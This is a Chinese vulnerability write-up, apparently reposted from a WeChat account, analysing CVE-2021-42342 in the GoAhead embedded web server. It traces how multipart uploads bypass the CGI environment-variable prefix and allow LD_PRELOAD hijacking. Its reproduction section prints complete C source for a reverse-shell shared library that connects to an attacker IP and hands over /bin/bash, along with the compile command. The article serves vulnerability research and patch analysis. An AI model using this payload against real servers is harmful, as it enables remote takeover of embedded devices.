# 【最新漏洞预警】CVE-2021-42342 GoAhead 远程命令执行漏洞深入分析与复现（警惕！影响范围广泛）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：GoAhead4.x或5.x<5.1.5、上传与CGI处理链启用、动态链接库执行条件
- 证据范围：细致追踪s->arg标记遗漏与multipart状态，独立于70复现实验；很多源码/HTTP内容仅截图

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响数亿设备为产品部署数量不是经过确认的易受影响数量
- 实际HTTP请求只在图内，环境/工具被公众号门槛替代
- C代码缺函数声明头文件；WEB_FORM/WEBS_FORM及wp-flags写法需对照源码

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wP4FFHxb1u5QzDTq4mD2Jg)

公众号

**关注公众号回复 “漏洞” 获取研究环境或工具**  

  

  

漏洞信息

2022 年漏洞分析开篇之作，给各位小伙伴分享最近刚爆出的 GoAhead RCE 漏洞。

GoAhead 是世界上最受欢迎的微型嵌入式 Web 服务器。它结构紧凑、安全且易于使用。GoAhead 部署在数亿台设备中，是最小嵌入式设备的理想选择。

近日爆出 GoAhead 存在 RCE 漏洞，漏洞源于文件上传过滤器的处理缺陷，当与 CGI 处理程序一起使用时，可影响环境变量，从而导致 RCE。漏洞影响版本为：

*   GoAhead =4.x
    
*   5.x<=GoAhead<5.1.5
    

GoAhead 在 IBM、HP、Oracle、波音、D-link、摩托罗拉等厂商产品中广泛使用，所以该漏洞的影响范围非常广泛。

  

  

CVE-2017-17562 补丁分析

GoAhead 曾经爆出过漏洞 CVE-2017-17562，经过分析发现 CVE-2021-42342 与 CVE-2017-17562 非常类似。**建议有兴趣的小伙伴可以首先了解下 CVE-2017-17562 的漏洞原理，然后再来看本文的分析会更容易理解**。这里推荐一篇老外关于 CVE-2017-17562 的分析文章：

> CVE-2017-17562
> 
> https://www.elttam.com/blog/goahead

首先对 CVE-2017-17562 漏洞补丁进行简要分析。修复主要有 2 个地方，第 1 处修改位于 `cgi.c#cgiHandler` 函数中：



乍一看当参数以 `LD_` 开头将会被忽略，所以 `LD_PRELOAD` 无法使用。但是深入分析我们发现这里犯了一个非常低级错误。`vp` 来源于 `s->name.value.string`：

```
vp = strim(s->name.value.string, 0, WEBS_TRIM_START);
```

看下 `strim` 函数定义：



`vp` 将永远为 `0`，所以上面通过 `if` 过滤 `LD_PRELOAD` 参数的过程是没有任何意义的。接着往下走，GoAhead 会将 POST 请求的表单变量使用 `ME_GOAHEAD_CGI_VAR_PREFIX` 作为前缀，通过函数 `sfmt` 进行字符串格式化处理，以保证 `LD_PRELOAD` 不会被劫持。这里看起来修复方式非常完善，但是我们深入分析发现，进入第 183 行 `if` 语句处理的前提条件是 `s->arg` 的值不为 `0`（初始化状态为 `0`）。

第 2 处修改位于 `http.c#addFormVars` 函数：



将 `arg` 赋值为 `1`，正好可以满足上面 `if` 语句的判断条件。

  

  

HTTP 处理机制分析

在补丁分析的基础上，为了更好理解漏洞产生的原理，下面我们继续对 GoAhead 处理 HTTP 的机制进行深入分析。

**0x01 进程初始化**  

GoAhead 进程启动后，会调用 `http.c#websServer` 函数完成配置初始化处理：



函数 `websOpen` 尝试解析 `route.txt`，一个典型的 `route.txt` 配置如下图所示：



`websOpen` 函数根据配置选择启动的模块：





`websDefineHandler` 函数用来定义处理不同请求类型的回调函数，比如上面定义 CGI 的回调处理函数为 `cgiHandler`，前面补丁对比分析时提到过这个函数，它会对参数进行加前缀处理。

回到 `http.c#websServer`，第 3426 行将调用 `websListen` 函数启动 HTTP 服务，进入该函数：



第 644 行定义了当 HTTP 请求来到时，将回调 `websAccept` 函数进行处理：



第 702 行将调用 `websAlloc` 为每一个请求分配单独的 `Webs` 结构体空间：



`initWebs` 函数完成对 `Webs` 结构体初始化的工作：



**0x02 HTTP 请求状态处理机制**  

下面我们简要分析一下 GoAhead 对单次 HTTP 请求进行处理的流程。GoAhead 将 HTTP 请求分为 5 个状态：



对于每一个 HTTP 请求，GoAhead 以事件形式通过 `readEvent` 函数进行处理：



进入 `websPump` 函数：



*   **WEBS_BEGIN**
    

在 `Accept` 阶段（即 `WEBS_BEGIN`），调用函数 `parseIncoming`：



进入 `parseHeaders` 对 HTTP 头进行检查与解析：



根据 `content-type` 的不同类型，完成对 `wp->flags` 的赋值。

*   **WEBS_CONTENT**
    

当进入参数处理状态时（即 `WEBS_CONTENT`），`websPump` 将调用 `processContent` 进行处理：



这里重点讲下文件上传状态 `WEBS_UPLOAD` 的处理过程。在 `upload.c` 中，默认定义上传文件保存目录为 `tmp`：



在 `processUploadHeader` 中构造此次 HTTP 请求结构体的 `uploadTmp` 值：





因此，`websTempFile` 默认将生成一个 `/tmp/tmp-0.tmp` 的临时文件名称，数字是 `websTempFile` 中根据 `count++` 自增生成的。然后打开临时文件，并将文件句柄赋值给 `wp->upfd`。在 `processContentData` 处理上传文件时，将调用 `writeToFile` 写入文件：





最终将文件内容写入了 `wp->upfd`，也就是保存到了创建的临时文件中。

*   **WEBS_READY**
    

`websPump` 将调用 `websRunRequest` 进行处理：



在这里有两个函数 `websSetQueryVars` 和 `websSetFormVars` 需要注意：





这 2 个函数都调用了 `addFormVars`，在前面对 CVE-2017-17562 漏洞补丁进行分析的过程中提到过这个函数，`addFormVars` 处理的最后将 `sp->arg` 赋值为 `1`，使得 `cgi.c#cgiHandler` 会对请求参数进行重命名，从而修复了 CVE-2017-17562 漏洞。

  

  

漏洞原理分析

有了前面对 CVE-2017-17562 漏洞修复的补丁对比和 HTTP 请求原理的分析基础，下面的漏洞分析过程就显得非常简单了。

在 `WEBS_READY` 提到，GoAhead 对 POST 请求和 GET 请求提交的参数都会调用 `addFormVars` 函数进行处理，将 `sp->arg` 赋值为 `1`，从而使得 `cgi.c#cgiHandler` 重命名环境变量，但是我们可以看到 POST 请求调用 `addFormVars` 的前提是 `wp-flags` 取值为 `WEB_FORM`，回顾 `WEBS_BEGIN` 处理过程，当 `content-type` 为 `multipart/form-data` 时，`wp-flags` 将赋值为 `WEBS_UPLOAD`，也就是说，如果 HTTP 请求为文件上传类型，参数将不会通过 `addFormVars` 处理，此时 `s->arg` 取值仍然为 `0`，从而在 `cgi.c#cgiHandler` 中将不会使用 `ME_GOAHEAD_CGI_VAR_PREFIX` 作为前缀进行修改，而是直接进入了 `else` 分支：



后面 `LD_PRELOAD` 劫持的漏洞触发原理与 CVE-2017-17562 类似，这里就不重复分析了。

  

  

漏洞复现

构造反弹 Shell 的恶意代码 `hack.c`：  

```
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

编译：  

```
gcc hack.c -fPIC -shared -o hack.so
```

构造 HTTP 请求，成功触发 RCE：  



  

  

修复方式

在新版本中改动的代码有不少，最核心的变化在 `upload.c#processContentData` 函数中：



对文件上传处理同样加入了 `sp->arg = 1` 的处理。同时在 `cgi.c#cgiHandler` 中，加入了黑名单处理机制，并且修复了参数 `vp` 获取方式：



  

  

参考

https://github.com/embedthis/goahead/issues/305

https://www.elttam.com/blog/goahead/

http://www.codetd.com/article/11534413

**由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用本人负责，且听安全团队及文章作者不为此承担任何责任。**

点关注，不迷路！


**关注公众号回复 “漏洞” 获取研究环境或工具**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
